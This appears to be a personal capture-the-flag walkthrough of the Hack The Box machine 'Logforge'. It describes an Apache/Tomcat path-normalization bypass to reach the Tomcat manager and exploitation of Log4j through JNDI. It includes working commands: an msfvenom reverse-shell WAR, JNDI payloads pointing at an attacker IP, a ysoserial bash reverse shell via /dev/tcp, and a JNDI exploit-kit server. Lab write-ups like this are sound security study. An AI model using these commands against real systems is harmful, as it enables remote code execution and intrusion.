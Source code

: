 # Logforge
#tomcat #log4j
- Video: https://www.youtube.com/watch?v=XG14EstTgQ4
- When seeing http on port 80 and 8080, consider the fact there mgight be some sort of reverse proxy forwarding the traffic from 80 to 8080
- Descrepency between what the error message for a 404 not found and the server header
- Server header says Apache and webpage says tomcat, therefore we know there is a reverse proxy
- Apache is blocking us from accessing the tomcat manager
- [Breaking parser logic attack](https://i.blackhat.com/us-18/Wed-August-8/us-18-Orange-Tsai-Breaking-Parser-Logic-Take-Your-Path-Normalization-Off-And-Pop-0days-Out-2.pdf)
- This kind of attack is a way of talking to tomcat bypassing apaches blocking
- Example of attack:
	- Navigating to `/doesnotexist`, gives us a 404 as expected
	- Navigating to `/doesnotexist/..;/manager/` gets gives us access to the manager page after authenticating
	- **NOTE** - remember trailing slash, otherwise it will not work as the browser 
- Another bypass is `/;name=something/manager/`
- What is happening here?
	- Apache is set up to block aything that begins with `/manager`
	- Apache reads `/;name=something` as a url and therefore allows it and passes it to tomcat
	- When it gets to tomcat, tomcat removes it as it does not recognise it as a url
	- Tomcat then continues going down the route logic and hands back the manager page
- Can deploy a war file using 
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.3 LPORT=9001 -f war -o shell.war
```
- This however wont work in this instance as tomcat is set up to only accept files up to 1 byte
- Tomcat is not vulnerable to Log4j by default
- Test Log4j vulnerability by creating the following payload and setting up a netcat listener is the respective port
```bash
${jndi:ldap://10.10.14.3:9001/doesnotexist}}
```
- We wont see the full url as ldap is trying to complete a hadshake but never does 
- To exploit Lof4j we first have to create the payload
- Using [yososerial-modified](https://github.com/pimps/ysoserial-modified) for this example
- To create the payload run
```bash
java -jar yososerial-modified.jar <collection> bash 'bash -i >& /dev/tcp/10.10.14.3/9001 0>&1' > ~/file.ser
```
- Next is the JNDI exploit kit, we will be using this to stand up an LDAP server and serve the malicious serialized java file
- Ldap is on port 1389
```bash
java -jar JDNI-Injection-Exploit-1.0-SNAPSHOT.jar -L 10.10.14.3:1389 -P ~/file.ser
```
- Pick a url from the urls privded under `--- JNDI Links ---` to use in the payload
- If not sure start with most recent version and work down  
- Create payload like:
```bash
${jndi:ldap://10.10.14.3:9001/fhdhsjd}
```
 - Useful command:
	 -  `ss -ltnp` to show open ports, like `netstat -tulnp`
	 -  `ps -ef --forest` to show processes relationships
- Java is running the ftp server
- Can decompile to ftpserver file and see that it gets user and password from environment vairables
- Could use [canary tokens](https://canarytokens.org/generate) to generate a log4shell payload to check if vulnerable in the first place but also to leak the environment variables, however htb boxes are not connected to the internet
- JNDI kit server is not verbose enough to say that a failed request to the jndi server was made and what the request was after
- Can use wireshark instead to see the connection attempt and use the connection attempt to leak the environment variables